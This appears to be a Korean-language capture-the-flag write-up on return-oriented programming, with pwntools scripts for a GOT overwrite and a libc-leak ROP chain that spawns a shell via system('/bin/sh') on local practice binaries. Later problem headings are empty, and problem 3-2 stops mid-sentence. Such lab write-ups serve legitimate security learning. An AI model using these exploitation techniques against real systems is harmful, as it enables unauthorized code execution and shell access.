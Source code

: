 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))

pop_rdi = 0x0000555555555213

payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()


```



## problem 3-2

마찬가지로 ROP 문제이다. read를 활용하여 


## problem 4




## problem 5




## problem 6






